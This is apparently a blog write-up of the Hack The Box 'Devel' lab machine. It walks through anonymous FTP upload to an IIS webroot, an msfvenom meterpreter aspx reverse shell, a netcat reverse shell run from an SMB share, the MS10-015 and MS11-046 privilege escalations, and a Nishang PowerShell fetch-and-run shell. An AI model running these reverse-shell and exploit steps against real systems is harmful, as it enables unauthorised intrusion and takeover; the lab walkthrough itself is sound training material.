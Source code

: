 ```yaml
---
title: Devel [HTB] 
date: 2020-10-28 18:08:00 +/- 0000
categories: [Writeup, Hack_The_Box]
tags: [Walkthrough, HTB, ftp, WES, Powershell, iis, aspx, Windows, Metasploit]
headline: HTB Devel machine. Metasploit and manual exploitation.
image: /assets/img/Devel/dev1.png
---
```


Devel, not to be confused with Devil, is another beginner box that we will exploit with Metasploit and via a script, plus throw in a bit of Powershell 'cuz I need the practice. There is anonymous FTP access to the webroot, which, while highly unlikely in the real world, is pretty much game over.

## Enumeration

```shell
nmap $ip -p-
```

We see that only ports 21 and 80 are open.

```shell
nmap -sC -sV -p 21,80 $ip
```

![pic](/assets/img/Devel/dev2.png)

Anonymous access allowed on the FTP server on 21 and an iis server on port 80. There's nothing on the web server but the home page. 

![pic](/assets/img/Devel/dev3.png)

A quick peek at the FTP server and see the welcome page and welcome image, making it pretty apparent that we have access to the web root. Don't do this at home, kids.

![pic](/assets/img/Devel/dev4.png)

If we can put a reverse shell file in the web root, it will be very simple to get a reverse shell. I don't know how I know, but I know that an iis server needs an aspx shell, so I use msfvenom to make one.

## Metasploit

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.63 LPORT=2222 -f aspx > reverse.aspx
```

Putting it into the webroot is as simple as:

```shell
put reverse.aspx
```

I am using a meterpreter shell to begin with, so I set up a listener in Metasploit and execute the shell simply by calling the shell in the web browser address bar: <http://$ip/reverse.aspx>


![pic](/assets/img/Devel/dev5.png)

Unfortunately, this is not a root shell, so we have a bit more work to do. The exploit suggester in Metasploit is very good, so I background the session and run the suggester.

![pic](/assets/img/Devel/dev6.png)

MS10-015 Kitrap0d looks like the winner, here, so I just need to set the LHOST and set the session, run the module and, just like that, we have a root shell!

![pic](/assets/img/Devel/dev7.png)

## Netcat, Webshell and MS11-046

That was too easy, so let's use a more *OSCP friendly* method and upload a webshell, send netcat over so we can establish a reverse shell and then exploit a different vulnerability for root. First order of business is to find an aspx webshell.

![pic](/assets/img/Devel/dev8.png)

Put the webshell in the root folder and then it should be accessible.

![pic](/assets/img/Devel/dev9.png)

Yup! I ran systeminfo in the shell since I know that we're gonna play with Windows Exploit Suggester in a few minutes.

![pic](/assets/img/Devel/dev10.png)

I have an alias to start my *impacket* server, but the command would be:

```shell
python3 /usr/share/doc/python3-impacket/examples/smbserver.py Samba . -smb2support
```

Get the smb server going in the directory where nc.exe lives and...

![pic](/assets/img/Devel/dev11.png)

...by entering the following command into the command line on the webshell we can execute a netcat shell without even transferring the file to the target machine!

```shell
\\10.10.14.63\Samba\nc.exe -e cmd.exe 10.10.14.63 443
```

![pic](/assets/img/Devel/dev12.png)

As we already know, we don't get a root shell from the web server, so let's run [Windows Exploit Suggester (WES)](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py). First thing on the list is to update the db.

![pic](/assets/img/Devel/dev13.png)

With the database updated (it creates a file we will need to run the script), we make sure we have copied the systeminfo output to a file, called devel_systeminfo, here, and run the script. I have renamed the script wes.py.

```shell
python wes.py --database 2020-10-27-mssb.xls --systeminfo devel_systeminfo
```

![pic](/assets/img/Devel/dev14.png)

I am wanting to run a non-msf exploit, and I can't see the one I'm looking for. This machine is supposed to be vulnerable to MS11-046, but neither Metasploit's exploit suggester nor WES has told us the machine is vulnerable to this exploit. 


I have seen it exploited on someone else's writeup, so let's get crazy and try to exploit it, anyway. The exploit is easy enough to find, but, better yet, a pre-compiled binary from a reputable source. Yes, please!

<https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe>

It is just a matter of downloading the exe file and running it on the target. Here I put it in the webroot and run it, but on the video I think I just use my Samba server and run it right from my machine! You can see there is no output, but the directory changes to Windows\System32 and running the whoami command tells us we are root.

![pic](/assets/img/Devel/dev15.png)

## Nishang Powershell

I don't like Powershell very much, so I don't often use it, something I should address, really. Let's try using Powershell to get a reverse shell. We will be using a shell from [Nishang](https://github.com/samratashok/nishang).

![pic](/assets/img/Devel/dev16.png)

Always best to make a working copy, so I'll copy the shell I want to my Devel folder.

![pic](/assets/img/Devel/dev17.png)

Open up the shell in an editor and find the example for a reverse shell, which can be seen on lin 20.

![pic](/assets/img/Devel/dev18.png)

Copy this line and paste it to the bottom of the script, changing the ip and port to suit.

![pic](/assets/img/Devel/dev19.png)

Start the python server in the Devel directory and enter the following powershell command into the webshell command line and it will fetch and execute the shell, so make sure there is a listener running.

![pic](/assets/img/Devel/dev20.png)

That's about all we're gonna get out of this one. Shame WES didn't show us the MS11-046 exploit. Consider running Watson if you really want to see it for yourself.

Link to the video:

M0nkey out.














